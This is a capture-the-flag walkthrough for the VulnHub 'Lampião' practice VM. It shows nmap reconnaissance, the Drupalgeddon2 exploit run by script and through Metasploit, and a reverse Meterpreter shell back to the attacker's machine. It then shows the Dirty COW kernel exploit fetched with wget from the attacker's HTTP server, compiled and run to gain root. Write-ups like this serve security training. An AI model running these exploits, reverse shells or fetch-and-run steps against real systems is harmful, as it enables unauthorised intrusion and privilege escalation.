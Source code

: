 ```yaml
---
layout: post-detail
title: Walkthrough on the CTF lampiao
date: 2018-10-01
categories: CTF
description: CTF on lampiao, iso https://www.vulnhub.com/entry/lampiao-1,249/
img-url: ''
comments: true
---
```


# Iso

Download the iso here: https://www.vulnhub.com/entry/lampiao-1,249/

# Discover the target

    $ sudo nmap -sS 192.168.2.0/24

```txt
Nmap scan report for 192.168.2.118
Host is up (0.0010s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:E1:ED:D5 (Oracle VirtualBox virtual NIC)
```

192.168.2.118 is our target, a ssh and a http server run.

# More informations

    $ sudo nmap -sT -sV -A -p- 192.168.2.118

```txt
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
- - -
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
```

The /CHANGELOG.txt show us the version of drupal 7.54

    $ searchsploit drupal

```txt
Drupal < 7.58 / < | exploits/php/webapps/44449.rb
```

We launch the exploit.

    $ ruby /usr/share/exploitdb/exploits/php/webapps/44449.rb http://192.168.2.118:1898

```txt
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://192.168.2.118:1898/
--------------------------------------------------------------------------------
[+] Found  : http://192.168.2.118:1898/CHANGELOG.txt (200)
[+] Drupal!: 7.54
--------------------------------------------------------------------------------
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://192.168.2.118:1898/s.php' -d 'c=whoami'
lampiao>>
```

Unfortunately, the shell is very limited, try run g++ return:

    lampiao>> g++
    sh: 1: g: not found

Or `chmod +x something`, we cannot use any special character.
We'll run the same exploit under `metasploit` and `meterpreter`.

    $ msfconsole
    use exploit/unix/webapp/drupal_drupalgeddon2
    set RHOST 192.168.2.118
    set RPORT 1898
    exploit

```txt
[*] Started reverse TCP handler on 192.168.2.92:1898 
[*] Drupal 7 targeted at http://192.168.2.118:1898/
[+] Drupal appears unpatched in CHANGELOG.txt
[*] Sending stage (37775 bytes) to 192.168.2.118
[*] Meterpreter session 1 opened (192.168.2.92:1898 -> 192.168.2.118:36346) at 2018-10-01 15:46:15 +0200
meterpreter >
```

    meterpreter > shell
    python -c 'import pty;pty.spawn("/bin/bash")'
    lampiao:/var/www/html$ uname -a
    Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux

Back on my machine to research a nice exploit, i've try:

    $ searchsploit linux 4.4

```txt
43418.c
39166.c
37292.c
42276.c
37088.c
9542.c
41458.c
39277.c
40003.c
44298.c
44300.c
```

After a few hours to test no working exploit, i've test an another query on exploitdb:

    $ searchsploit Linux Kernel | grep local | wc -l
    200

Try to reduce the list, only `.c` and `.cpp` exploit.

    $ searchsploit Linux Kernel | grep local | grep -e "\.cpp$" -e "\.c$" | wc -l
    151

We remove `x86_64` and `arm` exploit.
     
    $ searchsploit Linux Kernel linux/local | grep -e "\.cpp$" -e "\.c$" | wc -l
    126

The list is again huge... after some times, the exploit `40847.cpp` has work...

```txt
Linux Kernel 2.6.22 < 3.9 | exploits/linux/local/40847.cpp
```

Yep, an exploit for `kernel 2.6.2 < 3.9` has work on a `kernel 4.4.0`.  
It must be 'the message' of this vm, never give up !

Start a server to download file under the lampiao vm.

    $ python2.7 -m SimpleHTTPServer 4444

    lampiao$ wget http://192.168.2.92:4444/40847.cpp

Instruction to compile are in the file:

    lampiao$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
    lampiao$ ./dcow -s

We are finally root:

    root@lampiao:~# cd
    root@lampiao:~# cat flag.txt
    9740616875908d91ddcdaa8aea3af366

Find the good exploit here was a bit long.
